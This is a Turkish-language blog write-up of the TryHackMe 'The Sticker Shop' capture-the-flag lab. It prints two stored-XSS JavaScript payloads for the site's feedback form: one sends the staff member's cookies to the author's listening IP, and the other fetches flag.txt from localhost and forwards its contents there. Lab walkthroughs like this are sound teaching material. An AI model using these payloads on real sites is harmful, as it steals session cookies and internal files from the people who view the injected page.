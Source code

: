 ```yaml
---
title: 'TryHackMe | The Sticker Shop WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [xss]
render_with_liquid: false
media_subpath: /images/tryhackme_the_sticker_shop/
image:
  path: logo.webp
---
```


Bu yazımda TryHackMe platformunda bulunan “The Sticker Shop” isimli meydan okumanın çözümünü göstereceğim. Kendisi basit seviye bir meydan okumadır ve yapılması gerekenler kısmen belirtilmiştir.

Bulunması gereken tek bir bayrak olduğundan bu meydan okumayı tek hamlede bitireceğiz. Öncelikle bize bayrağın konumunun verildiğini söylemeliyim. Ancak görüntülemeye çalıştığımızda yetkimiz olmadığı için 401 hatasını veriyor.

![](1.webp){: width="1200" height="500" }

Bayrağı nasıl ele geçirebileceğimizi öğrenmek için web uygulaması hakkında biraz bilgiye sahip olmamız gerekiyor. Ana sayfaya döndüğümüzde bir geri bildirim sayfası ile karşılaşıyoruz.

![](2.webp){: width="1200" height="600" }

Nasıl çalıştığını anlamak için rastgele bir şeyler yazdım ve gönderdim. Sonucunda ise mesajın bir çalışana gönderildiğini ve yakın zamanda kontrol edeceğini öğrendim.

Daha sonra XSS açığının olup olmadığını kontrol etmek için netcat ile 8080 portunu dinlemeye aldım ve aşağıdaki javascript kodunu geri bildirim sayfasıyla gönderdim.

```js
<script>fetch(‘http://10.21.66.61:8080/?=' + document.cookie)</script>
```

Bildirimlerin okunduğu sayfada XSS zafiyeti bulunuyorsa eğer bu javascript kodu ile hem bildirimlerin okunduğu sayfanın yolunu öğrenebilir hem de cookie bilgilerini alabilirdik. Ancak iki bilgiyide elde edemiyoruz.

![](3.webp){: width="1200" height="600" }

En azından XSS zafiyetinin varlığından haberdar olmuş olduk. Anladığım kadarıyla hedef dosyayı yerel ağdan çekmemiz gerekiyor. Bunun içinde XSS zafiyetinden yararlanmalıyız. Javascript’ten pek anlamadığım için internet üzerinden bir arama yaptım ve aşağıdaki kodu buldum.

```js
<script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://10.21.66.61:8080/?=' + data);
    });
</script>
```

Bu kod personelin sayfasında çalıştığında, önce yerel ağ üzerinden bayrağı alacak daha sonra ise dinlemiş olduğum port’a iletecek.

![](4.webp){: width="1200" height="600" }

Bu şekilde kolay bir meydan okumayı daha bitirmiş olduk. Okuduğunuz için teşekkür ederim.

